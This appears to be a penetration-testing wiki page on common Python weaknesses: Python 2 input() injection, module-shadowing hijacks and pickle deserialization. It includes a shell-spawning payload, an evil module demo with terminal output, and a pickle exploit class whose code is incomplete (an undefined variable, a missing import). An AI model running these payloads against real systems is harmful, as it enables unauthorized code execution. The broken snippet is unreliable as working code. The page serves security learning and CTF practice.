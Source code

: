 # Python 

Python is a language powering an extraordinary number of applications, but here we're just going to focus on very common coding errors you're likely to find.  These can be useful in cases of both web applications as well as local and exploiting any of these is incredibly context specific.

## python2 input

In python 2, the `input` function worked in an interesting manner.  It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function.  However, this also allowed any arbitrary code to be injected.  In cases where you have a python 2 style input mechanism, simply write the following:

```py
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and `raw_input` from python 2 replaced it.

## Module Overwrite

Consider the following program:

```py
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```bash
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```py
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules.  Consequently, it is more than possible to take over a python scripts execution, even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

## Pickle Deserialization

During pickle deserialization, it is possible to create a situation where arbitrary code is executed.  This is because the `reduce` method defines how the object itself is de-serialized, and so will be executed when `pickle.loads` is called.

```py
import subprocess
class BadPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, (chars,))

print cPickle.dumps(BadPickle())
```

**Further Reading**  
[https://blog.nelhage.com/2011/03/exploiting-pickle/](https://blog.nelhage.com/2011/03/exploiting-pickle/)  
[https://sensepost.com/blog/2010/playing-with-python-pickle-%231/](https://sensepost.com/blog/2010/playing-with-python-pickle-%231/)  
[https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)

## CTF Writeups

These are a collection of CTF writeups that may prove helpful if you find yourself against a Python Jail or environment.  Since it's such a popular language a python jail, such as [lshell](https://github.com/ghantoos/lshell), can be a surprisingly common vulnerability.

[PlaidCTF - Pyjail with character restrictions](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/)

